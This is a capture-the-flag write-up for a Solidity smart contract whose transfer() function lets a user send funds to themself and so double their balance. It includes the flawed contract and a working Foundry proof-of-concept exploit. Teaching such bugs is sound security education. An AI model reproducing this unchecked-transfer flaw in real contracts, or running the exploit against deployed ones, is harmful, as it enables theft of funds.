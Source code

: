 # TemporaryVariable

*“Often something that appears safe isn't safe at all.”*

## Objective of CTF

Your goal is to exploit a vulnerability in the contract to remove exactly double the amount you supply. Provide your solution as

user1 that supplies 100 units to the contract and removes 200 units . Use the foundry setup given below.

---

Contract Code:

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract factory {
    address public owner;
    constructor() {
        owner = msg.sender;
    }
    modifier onlyOwner() {
        require(msg.sender == owner, "you are not owner");
        _;
    }
    modifier isUserBlacklisted(address user) {
        require(_blacklist[user] == false, "user is blacklisted");
        _;
    }

    mapping(address => uint256) public _balances;
    mapping(address => bool) public _blacklist;

    function blacklistuser(address user) public onlyOwner {
        uint256 balance = _balances[user];
        require(balance != 0, "user does not exist");
        _blacklist[user] = true;
    }

    function whitelistuser(address user) public onlyOwner {
        bool blacklist = _blacklist[user];
        require(blacklist == true, "user is not blacklisted");
        _blacklist[user] = false;
    }

    function supply(address _user, uint256 _amount) public {
        require(_user == msg.sender, "unauthorized");
        require(_balances[_user] == 0, "already exists");
        require(_amount > 0, "invalid amount");
        _balances[_user] += _amount;
        _blacklist[_user] = false;
    }

    function checkbalance(address _user) public view returns (uint256) {
        return _balances[_user];
    }

    function transfer(address _from, address _to, uint256 _amount) public isUserBlacklisted(_from) {
        uint256 frombalance = _balances[_from];
        uint256 tobalance = _balances[_to];
        require(_from == msg.sender, "unauthorized");
        require(frombalance != 0, "no balance");
        require(tobalance != 0, "unknown user");
        require(_amount <= frombalance, "not enough balance");

        _balances[_from] = frombalance - _amount;
        _balances[_to] = tobalance + _amount;
    }

    function remove(address _from, uint256 _amount) public isUserBlacklisted(_from) {
        require(_from == msg.sender, "unauthorized");
        uint256 _accountbalance = _balances[_from];
        require(_amount <= _accountbalance, "not enough balance");

        if (_amount == _accountbalance) {
            delete _balances[_from];
            delete _blacklist[_from];
        } else {
            _accountbalance -= _amount;
            _balances[_from] = _accountbalance;
        }
    }
}
```



## The Attack

The vulnerability lies in the **transfer()** function. It doesn't comparing the "**_to**" and "**_from**" addresses. If the function is called with the same address for both "**_to**" and "**_from**" along with the already supplied amount, the transaction get succeeded and the balance is doubled. This doubled amount can be removed using **remove()** function.

### STEPS
1. call **supply()** to add balance.
2. call **transfer()** with **msg.sender** address as **_to** and **_from** addresses and **_amount** as the balance amount. This transaction will double the balance amount.
3. call **remove()** to remove the doubled balance.

## Proof of Concept

The Foundry setup is as follows:

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "src/factory.sol";

contract testfactory is Test, factory {
    factory _factory;
    address user1 = 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4;
    address user2 = 0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2;

    function setUp() public {
        vm.prank(owner);
        _factory = new factory();

        vm.deal(user1, 100);
        vm.deal(user2, 100);

        vm.prank(user1);
        _factory.supply(user1, 100);
        vm.prank(user2);
        _factory.supply(user2, 100);
    }

    function testFactory() public {
        vm.prank(user1);

        //solution

        // 1. Double the balance
        _factory.transfer(user1, user1, 100);
        uint256 newbalance = _factory.checkbalance(user1);
        assertEq(newbalance, 200);

        // 2. Remove the balamce
        vm.prank(user1);
        _factory.remove(user1, newbalance);
        newbalance = _factory.checkbalance(user1);
        assertEq(newbalance, 0);
    }
}
```
